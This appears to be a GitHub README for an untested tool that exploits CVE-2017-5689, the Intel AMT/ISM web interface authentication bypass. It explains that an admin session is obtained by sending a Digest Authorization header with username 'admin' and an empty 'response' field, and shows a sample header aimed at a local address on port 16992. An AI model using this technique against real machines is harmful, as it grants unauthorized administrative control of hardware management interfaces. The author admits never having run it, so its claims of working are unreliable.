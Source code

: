 # Intel_IME_WebUI_bypass
does this even work?

This has some new things I have never done before and I am still testing it... haven't even run the darn thing yet but it looks like it works I guess.

################################################################################
This is a tool to persist an Intel IME admin session by modifying the GET 
request to have the "response:" field empty in every request. 
The web portal presented by the HARDWARE uses an MD5 in the response body to
authenticate and per the link given, can be bypassed by simply emptying it.
https://www.ssh.com/vulnerability/intel-amt/

CVE-2017-5689

  https://nvd.nist.gov/vuln/detail/CVE-2017-5689
 
  An unprivileged network attacker could gain system privileges to 
  provisioned Intel manageability SKUs: Intel Active Management Technology 
  (AMT) and Intel Standard Manageability (ISM). An unprivileged local attacker
  could provision manageability features gaining unprivileged network or local
  system privileges on Intel manageability SKUs: Intel Active Management 
  Technology (AMT), Intel Standard Manageability (ISM), and Intel Small 
  Business Technology (SBT).
 
###############################################################################

 Referer: http://192.168.0.44:16992/logon.htm

 Authorization: 
       Digest username="admin", 
       
       realm="Digest:72C40000000000000000000000000000", 
       
       nonce="WT7ZAQsLAABEyoVgz4/+bFmvwKIRUvUI", 
       
       uri="/index.htm", 
       
       response="9621f86ecc7d8f680213ddc2aae3f21d", 
       
       qop=auth, 
       
       nc=00000001,
       
       cnonce="96d5787909ac7ea7"
       
################################################################################

 WE MODIFY 'response=""' TO BE EMPTY WITH THE USERNAME "ADMIN" THAT IS ALL
 
################################################################################

